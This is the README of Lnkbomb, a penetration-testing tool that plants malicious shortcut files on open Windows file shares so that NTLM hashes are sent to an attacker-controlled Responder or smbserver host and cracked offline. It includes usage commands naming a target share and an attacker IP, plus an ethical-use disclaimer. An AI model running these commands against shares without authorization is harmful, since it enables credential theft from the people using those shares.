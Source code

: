 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Python Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

## Executable Usage
Download Lnkbomb from the releases link on the right side of the page.  All flags are the same as the Python version, with the exception of using lnkbomb.exe rather than python3 lnkbomb.py.

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/main/images/example2.png" />
</p>

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
